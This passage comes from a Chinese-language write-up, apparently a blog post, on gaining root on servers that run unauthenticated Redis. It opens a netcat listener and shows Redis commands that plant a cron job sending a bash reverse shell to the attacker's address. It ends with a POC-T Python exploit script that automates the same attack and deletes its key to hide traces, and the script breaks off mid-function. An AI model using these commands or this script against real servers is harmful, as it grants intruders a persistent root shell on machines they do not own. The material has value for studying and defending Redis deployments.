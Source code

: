 ```
nc -lvnp 4444
```
![图片](https://ae01.alicdn.com/kf/Uea6c9c3acc7d493292cd91ac524e2ea3s.png)

2、修改备份目录和文件名为定时任务的目录和文件：

```
 192.168.1.154:6379> set x "\n* * * * * bash -i >& /dev/tcp/192.168.1.153/4444 0>&1\n"
 
 192.168.1.154:6379> config set dir /var/spool/cron/
 192.168.1.154:6379> config set dbfilename root
 192.168.1.154:6379> save
```
执行过程：
![图片](https://ae01.alicdn.com/kf/Uc40a2127aaa749f9977956dc99a46397z.png)

3、执行完redis命令后，回到监听的终端页面：

![图片](https://ae01.alicdn.com/kf/U6248d090f1854392880864a68b272ce2R.png)

第一次看到还以为没有反弹回shell，不知道为什么这个shell无法执行ifconfig

求助大佬后才知道，默认的ifconfig是在  /usr/bin/目录下，而bash默认是在

![图片](https://ae01.alicdn.com/kf/U22a39bb0cd9e47da92d01f5856aac7334.png)

解决方法：

```
ln -s /usr/sbin/ifconfig /usr/bin/ifconfig
```
![图片](https://ae01.alicdn.com/kf/U66adf94c678e40a48c6a89c9b8e7276eP.png)

### POC-T框架下对应的利用脚本：
![图片](https://ae01.alicdn.com/kf/Uf167a8478ce24c28ade61738493a1b0ft.png)

POC-T框架里的利用代码：

```
import redis
from plugin.util import host2IP
from plugin.util import randomString
listen_ip = '192.168.1.222' # your public IP and Port
listen_port = 9999

def poc(url):
    url = host2IP(url)
    ip = url.split(':')[0]
    port = int(url.split(':')[-1]) if ':' in url else 6379
    try:
        r = redis.Redis(host=ip, port=port, db=0, socket_timeout=10)
        if 'redis_version' in r.info():
            payload = '\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/{ip}/{port} 0>&1\n\n'.format(ip=listen_ip,port=str(listen_port))
            path = '/var/spool/cron'
            name = 'root'
            key = randomString(10)
            r.set(key, payload)
            r.config_set('dir', path)
            r.config_set('dbfilename', name)
            r.save()
            r.delete(key)  # 清除痕迹
            r.config_set('dir', '/tmp')
            return True
    except Exception:
```